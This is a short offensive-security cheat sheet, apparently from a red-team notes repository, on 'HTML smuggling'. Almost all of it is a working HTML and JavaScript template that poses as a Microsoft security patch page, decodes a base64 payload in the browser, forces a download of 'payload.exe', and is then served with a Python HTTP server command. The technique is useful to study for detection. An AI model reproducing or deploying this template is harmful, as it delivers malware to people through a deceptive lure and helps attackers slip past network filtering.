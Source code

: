 # HTML Smuggling

## 01 - Manual

`$ cat html_smuggling.html`

---

```html
<html>
    <body>
        <h1>
            Security Patch Update!
        </h1>
        <p>
            Please install this Microsoft security patch update!
        </p>
        <script>
            function Base64ToArray(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array(len);
                for(var i = 0; i < len; i++)
                    bytes[i] = binary_string.charCodeAt(i);
                return bytes.buffer;
            }
            // $ cat payload.exe | base64 -w 0
            var base64_binary = '<base64_payload>'
            
            var data = Base64ToArray(base64_binary);
            var blob = new Blob([data], {type: 'octet/stream'});
            var payloadfilename = 'payload.exe';
            
            var anchor = document.createElement('a');
            document.body.appendChild(anchor);
            anchor.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            anchor.href = url;
            anchor.download = payloadfilename;
            anchor.click();
            window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```

`$ sudo python -m http.server 80`

## References

- [A Detailed Guide on HTML Smuggling](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

- [GhostInHTML](https://github.com/exploitblizzard/GhostInHTML)